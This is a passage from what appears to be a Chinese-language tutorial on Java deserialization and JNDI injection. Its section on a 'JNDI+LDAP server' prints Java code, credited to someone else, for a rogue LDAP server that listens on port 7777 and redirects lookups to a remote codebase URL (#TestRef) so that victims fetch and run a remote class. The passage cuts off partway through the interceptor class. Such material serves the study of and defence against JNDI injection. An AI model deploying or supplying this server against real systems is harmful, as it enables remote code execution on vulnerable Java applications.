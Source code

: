 ```java
//        objectInputStream.readObject();

    }
}

```



### 4.Jndi+ldap服务器代码

（至于jndi+ldap的服务器代码，我忘记copy的哪位大佬的了，就先贴在下边，侵删）

```java
import java.net.InetAddress;
import java.net.MalformedURLException;
import java.net.URL;

import javax.net.ServerSocketFactory;
import javax.net.SocketFactory;
import javax.net.ssl.SSLSocketFactory;

import com.unboundid.ldap.listener.InMemoryDirectoryServer;
import com.unboundid.ldap.listener.InMemoryDirectoryServerConfig;
import com.unboundid.ldap.listener.InMemoryListenerConfig;
import com.unboundid.ldap.listener.interceptor.InMemoryInterceptedSearchResult;
import com.unboundid.ldap.listener.interceptor.InMemoryOperationInterceptor;
import com.unboundid.ldap.sdk.Entry;
import com.unboundid.ldap.sdk.LDAPException;
import com.unboundid.ldap.sdk.LDAPResult;
import com.unboundid.ldap.sdk.ResultCode;

public class JNDILDAPServer {
    private static final String LDAP_BASE = "dc=example,dc=com";

    public static void main ( String[] tmp_args ) {
        String[] args=new String[]{"http://127.0.0.1:8081/#TestRef"};
        int port = 7777;//指定端口

        try {
            InMemoryDirectoryServerConfig config = new InMemoryDirectoryServerConfig(LDAP_BASE);
            config.setListenerConfigs(new InMemoryListenerConfig(
                    "listen", //$NON-NLS-1$
                    InetAddress.getByName("0.0.0.0"), //$NON-NLS-1$
                    port,
                    ServerSocketFactory.getDefault(),
                    SocketFactory.getDefault(),
                    (SSLSocketFactory) SSLSocketFactory.getDefault()));

            config.addInMemoryOperationInterceptor(new OperationInterceptor(new URL(args[ 0 ])));
            InMemoryDirectoryServer ds = new InMemoryDirectoryServer(config);
            System.out.println("Listening on 0.0.0.0:" + port); //$NON-NLS-1$
            ds.startListening();

        }
        catch ( Exception e ) {
            e.printStackTrace();
        }
    }

    private static class OperationInterceptor extends InMemoryOperationInterceptor {

        private URL codebase;

        public OperationInterceptor ( URL cb ) {
```
